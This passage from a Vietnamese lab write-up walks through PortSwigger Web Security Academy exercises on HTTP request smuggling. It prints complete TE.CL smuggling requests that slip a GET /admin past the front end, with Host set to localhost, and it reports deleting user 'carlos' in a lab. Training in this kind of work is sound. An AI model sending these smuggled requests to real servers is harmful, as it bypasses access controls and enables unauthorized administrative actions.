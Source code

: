 > ![image](https://hackmd.io/_uploads/r19yMdXOA.png)

>Lấy đường dẫn xóa `carlos` và send lại (nhớ chỉnh sửa giá trị `Content-Length` cho đúng kích thước body):
>![image](https://hackmd.io/_uploads/S1muMOmuR.png)

>Thành công xóa được `carlos`, hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/By2FG_XdA.png)

### **7. Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability**
![image](https://hackmd.io/_uploads/SJ0H7_7u0.png)

>Khi truy cập vào trang quản trị `/admin` thì ta bị block:
>![image](https://hackmd.io/_uploads/SyagNd7uA.png)

>Ta xác nhận được lab này thuộc dạng `TE.CL` bằng request sau:
```
POST / HTTP/1.1
Host: 0a5b0097035db07e8199dec2007900b4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
GET /admin HTTP/1.1
Host: 0a5b0097035db07e8199dec2007900b4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

a
0


```
![image](https://hackmd.io/_uploads/rkSor_XuR.png)

>Ta tiếp tục bị chặn truy cập do không phải local user **"Admin interface only available to local users"**. Tương tự lab trên, ta chỉnh sửa 1 chút Host thành `localhost` và độ dài chunk data cho đúng:
```
POST / HTTP/1.1
Host: 0a5b0097035db07e8199dec2007900b4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

6f
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

a
0


```
>![image](https://hackmd.io/_uploads/SkDkDu7O0.png)
